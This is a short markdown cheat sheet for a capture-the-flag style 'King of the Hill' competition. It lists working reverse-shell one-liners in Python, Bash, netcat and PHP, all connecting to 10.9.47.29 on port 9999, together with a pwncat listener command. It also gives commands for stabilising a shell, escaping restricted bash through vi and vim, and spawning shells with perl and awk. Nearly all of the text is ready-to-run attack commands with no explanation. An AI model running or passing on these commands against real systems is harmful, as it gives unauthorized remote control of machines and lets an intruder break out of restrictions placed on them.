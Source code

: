 # KING OF THE HILL CHEAT SHEET

> Yazeed Ahmed | 06-11-2023

#################################################################
## Reverse Shells
```bash
#Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.47.29",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

pwncat-cs -lp 9999

#Bash
bash -i >& /dev/tcp/10.9.47.29/9999 0>&1
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.47.29 9999 >/tmp/f

#PHP
php -r '$sock=fsockopen("10.9.47.29",9999);exec("/bin/sh -i <&3 >&3 2>&3");'
```

#################################################################
## Stablize Shell [TTY]
```bash
#Python
python3 -c "import pty;pty.spawn('/bin/bash')"
ctrl +z 
stty raw -echo;fg
export TERM=xterm

# OR S1REN
python -c 'import pty;pty.spawn("/bin/bash")'
python3 -c "import pty;pty.spawn('/bin/bash')"
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
export TERM=xterm-256color
alias ll='ls -lsaht --color=auto'
ctrl +z
stty raw -echo ; fg ; reset
stty columns 200 rows 200

# Bash
bash -p 
bash -l

# Is this rbash (Restricted Bash)? PT1
vi
:set shell=/bin/sh
:shell

vim
:set shell=/bin/sh
:shell

# Is perl present on the target machine?
perl -e 'exec "/bin/bash";'
perl -e 'exec "/bin/sh";'

# Is AWK present on the target machine?
awk 'BEGIN {system("/bin/bash -i")}'
awk 'BEGIN {system("/bin/sh -i")}'

```